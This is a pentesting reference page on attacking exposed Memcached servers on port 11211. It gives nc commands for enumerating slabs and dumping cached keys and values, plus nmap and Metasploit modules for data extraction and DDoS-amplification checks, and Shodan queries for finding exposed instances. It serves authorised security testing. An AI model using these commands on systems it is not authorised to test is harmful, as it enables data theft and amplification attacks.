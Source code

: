 # 11211 - Pentesting Memcache

## Protocol Information

**Memcached** \(pronunciation: mem-cashed, mem-cash-dee\) is a general-purpose distributed [memory caching](https://en.wikipedia.org/wiki/Memory_caching) system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source \(such as a database or API\) must be read. \(From [wikipedia](https://en.wikipedia.org/wiki/Memcached)\)  
Although Memcached supports SASL, most instances are **exposed without authentication**.

**Default port:** 11211

```text
PORT      STATE SERVICE
11211/tcp open  unknown
```

## Enumeration

### Manual

To ex-filtrate all the information saved inside a memcache instance you need to:

1. Find **slabs** with **active items**
2. Get the **key names** of the slabs detected before
3. Ex-filtrate the **saved data** by **getting the key names**

Remember that this service is just a **cache**, so **data may be appearing and disappearing**.

```bash
echo "version" | nc -vn <IP> 11211      #Get version
echo "stats" | nc -vn <IP> 11211        #Get status
echo "stats slabs" | nc -vn <IP> 11211  #Get slabs
echo "stats items" | nc -vn <IP> 11211  #Get items of slabs with info
echo "stats cachedump <number> 0" | nc -vn <IP> 11211  #Get key names
echo "get <item_name>" | nc -vn <IP> 11211  #Get saved info

#This php will just dump the keys, you need to use "get <item_name> later"
sudo apt-get install php-memcached
php -r '$c = new Memcached(); $c->addServer("localhost", 11211); var_dump( $c->getAllKeys() );'
```

### Automatic

```bash
nmap -n -sV --script memcached-info -p 11211 <IP>   #Just gather info
msf > use auxiliary/gather/memcached_extractor      #Extracts saved data
msf > use auxiliary/scanner/memcached/memcached_amp #Check is UDP DDoS amplification attack is possible
```

### **Shodan**

* `port:11211 "STAT pid"`
* `"STAT pid"`

